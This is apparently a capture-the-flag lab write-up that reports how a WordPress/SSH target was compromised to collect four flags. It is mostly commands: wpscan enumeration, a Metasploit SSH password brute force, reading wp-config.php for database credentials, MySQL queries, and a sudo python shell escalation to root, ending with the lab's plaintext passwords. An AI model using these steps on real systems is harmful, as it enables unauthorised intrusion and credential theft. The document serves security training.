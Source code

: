 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV -O 192.168.1.110`

![Initial Nmap Scan](Images/InitialNmapScan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP: OpenSSH
  - Port 80/TCP: Apache web server
  - Port 111/TCP: rpcbind
  - Port 139/TCP: Samba smbd
  - Port 445/TCP: Samba smbd

The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress server is vulnerable to user enumeration
  - Wordpress and ssh server have weak passwords
  - MySQL password is stored in plain text
  - Wordpress hashes are stored unsalted
  - Steven user account has sudo permissions for Python

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Start with a user enumeration of the Wordpress website using Wpscan
        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
        - ![WPScan](Images/Wpscan.png "WPScan")
      - Using the ssh module in Metasploit we will break into Michael's account
        - `msfconsole`
        - `search ssh`
        - `use auxiliary/scanner/ssh/ssh_login`
        - `show options`
        - `set username michael`
        - `set user_as_pass true`
        - `set pass_file /usr/share/wordlists/rockyou.txt`
        - `set rhosts 192.168.1.110`
        - `set rport 22`
        - `set stop_on_success true`
        - ![Metasploit](Images/Metasploit.png "Metasploit SSH Cracker") 
        - Michael's password is michael
      - Now that we have access to Michael's account we ssh in and search the website filed for the first flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html`
        - `grep -nr 'flag1'`
        - ![flag1](Images/flag1.png "First flag") 
  - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - We have the ssh login for Michael from the first flag so we login with that again and run a find command to locate any files named flag
        - `ssh michael@192.168.1.110`
        - `find / -iname '*flag*' -type f -print 2>/dev/null`
        - ![flag2 location](Images/flag2Location.png "Second flag location") 
        - We now know it is stored in /var/www/flag2.txt
        - `cat /var/www/flag2.txt`
        - ![flag2](Images/flag2.png "Second flag") 
  - `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - We are going to locate the password to the MySQL server and than search the database for the next flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html/wordpress`
        - `cat wp-config.php`
        - ![MySQL Login Info](Images/MySQL_Login.png "MySQL Login Info")
        - We now know that the MySQL username is `root` with `R@v3nSecurity` as the password so now we will login to the database and search it for the flag
        - `mysql -u root -pR@v3nSecurity`
        - `use wordpress;`
        - `show tables;`
        - ![MySQL Tables](Images/MySQL_Tables.png "MySQL Tables")
        - `describe wp_posts;`
        - ![MySQL wp_posts](Images/MySQL_wp_posts.png "MySQL wp_posts")
        - `select post_content from wp_posts where post_content like '%flag%';`
        - ![Flag 3 and 4](Images/flag3and4.png "Flag 3 and 4")
        - This gives us the third and fourth flag but we will continue to escalate privileges to root regardless to demonstrate how to do it

  - `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Logged into Steven after cracking the password hash from mysql
	  - escalated to root using sudo python -c 'import pty; pty.spawn("/bin/sh")'
      - find / -iname '*flag*' -type f
	  
	  
	  
steven:pink84
michael:michael
mysql
	root:R@v3nSecurity
